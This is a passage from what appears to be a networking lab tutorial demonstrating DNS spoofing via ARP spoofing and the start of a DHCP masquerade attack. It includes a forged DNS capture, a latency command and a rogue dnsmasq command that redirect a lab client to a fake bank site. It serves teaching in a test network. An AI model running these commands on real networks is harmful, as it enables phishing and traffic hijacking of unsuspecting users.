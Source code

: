 
```
15:10:38.891177 02:b7:c8:cf:b7:ce > 02:60:70:39:bf:e2, ethertype IPv4 (0x0800), length 94: 10.10.1.2.53 > 10.10.1.37.59853: 26445 1/0/0 A 66.55.106.88 (52)
15:10:38.891215 02:60:70:39:bf:e2 > 02:0f:07:a6:c6:d8, ethertype IPv4 (0x0800), length 94: 10.10.1.2.53 > 10.10.1.37.59853: 26445 1/0/0 A 66.55.106.88 (52)
```


Finally, we'll visit `bankofhamilton.com` in the Firefox browser instance that is running on our client, and verify that it takes us to the imposter site instead of the real thing. We have modified the logo of the imposter site with a big "FAKE" warning so that we can tell which site we are visiting.

<iframe width="560" height="315" src="https://www.youtube.com/embed/U6-DSK3PfvI" frameborder="0" allowfullscreen></iframe>

When you've verified the attack, use Ctrl+C to stop the `dnsspoof` process, and stop the ARP spoofing by running

```
killall arpspoof
```

on the attacker.

### DHCP masquerade attack

In this version of the attack, the attacker will run its own DHCP server. When the client requests a new address from DHCP, it will get an offer from the attacker before the "good" server (because of the latency we will set up on the "good" server). As part of the DHCP response, the attacker will tell the client to use it for name resolution. Then, it can send malicious DNS responses.

This procedure assumes that you have already run the previous attack, and so you already have the `/tmp/badhosts` file set up to map the Bank of Hamilton to the IP address of your own imposter site. If you _don't_ have this, repeat the relevant steps in the previous section.

This attack works most reliably when packets from the attacker reaching the client _before_ packets from the "good" server. To ensure this happens in our experiment, we will set up some extra latency on the "good" server. Stop the `tcpdump` process on the "good" server temporarily, and run

```
tc qdisc del dev eth1 root
tc qdisc add dev eth1 root netem delay 500ms 2ms distribution normal
```

and then you can start the `tcpdump` again. We will use a filter to focus on DHCP traffic:

```
tcpdump -i eth1 -n -e -v "udp port 67 or udp port 68"
```

Also, the `dnsmasq` process should still be running on the "good" server.

Now, on the attacker, start a `dnsmasq` instance:

<pre>
service dnsmasq stop
dnsmasq --interface=eth1 --dhcp-range=10.10.1.20,10.10.1.50,255.255.255.0,72h --no-hosts --dhcp-option=6,10.10.1.254 --addn-hosts=/tmp/badhosts -d
</pre>
